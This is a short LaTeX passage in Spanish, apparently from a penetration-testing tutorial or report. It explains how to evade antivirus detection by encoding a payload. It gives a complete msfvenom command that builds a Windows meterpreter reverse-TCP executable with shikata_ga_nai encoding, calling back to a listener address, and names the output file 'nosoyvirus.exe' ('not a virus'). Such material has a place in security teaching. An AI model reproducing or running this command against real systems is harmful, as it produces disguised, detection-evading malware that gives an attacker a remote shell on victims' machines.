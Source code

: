 \begin{figure}[!ht]
   \centering
   \includegraphics[scale=0.3]{images/screent_vt2.png}
   \caption{}
   \centering
\end{figure}

Para evadir estas detecciones se puede encriptar, u ofuscar, el payload para que no sea detectado, dicho procedimiento se puede realizar utilizando la misma herramienta que utilizamos para generar los payloads, \texttt{msfvenom}, pero agregando la bandera de encriptación \texttt{-e}.

\begin{lstlisting}[breaklines=true]
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.103 LPORT=4455 -f exe -e x86/shikata_ga_nai -o nosoyvirus.exe
\end{lstlisting}

